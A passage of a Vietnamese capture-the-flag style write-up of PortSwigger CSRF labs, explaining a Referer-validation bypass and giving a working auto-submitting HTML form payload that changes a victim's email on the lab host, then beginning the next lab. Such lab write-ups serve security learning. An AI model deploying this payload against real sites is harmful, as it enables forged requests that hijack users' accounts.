 ![image](https://hackmd.io/_uploads/S1MM5prqT.png)

- Trang web sẽ check bằng cách kiểm tra header referer của request, vì nếu không làm gì thì phần referer sẽ là exploit nên không được, vậy thì ta sẽ bỏ luôn cái header này,

![image](https://hackmd.io/_uploads/HJKr9prqa.png)

xóa header Referer luôn thì server vẫn xử lí thành công.

- Điều này suy ra được rằng server chỉ validate Referer khi nó tồn tại, còn không thì bỏ qua. Như vậy chỉ cần tạo CSRF payload thông thường và thêm <meta name="referrer" content="never"> để loại trừ Referer khỏi request.

### Khai thác

```javascript
<html>
  <meta name="referrer" content="never">
  <body>
    <form action="https://0ae600d704529dc984ec22c1002600c0.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="abc@a.a" />
    </form>
    <script>
        document.forms[0].submit();
    </script>
  </body>
</html>
```

![image](https://hackmd.io/_uploads/rk0A9aSqp.png)

store và gửi cho victim

![image](https://hackmd.io/_uploads/SJ-R96rq6.png)

## 11. Lab: CSRF with broken Referer validation

link: https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses/lab-referer-validation-broken

### Đề bài

![image](https://hackmd.io/_uploads/H1QMERS5T.png)

### Phân tích

- tương tự bài trước ứng dụng web này trang bị cơ chế chống CSRF bằng cách validate trường Referer.

Đăng nhập với tài khoản cho sẵn và thực hiện update email.

![image](https://hackmd.io/_uploads/rkkxBArqp.png)
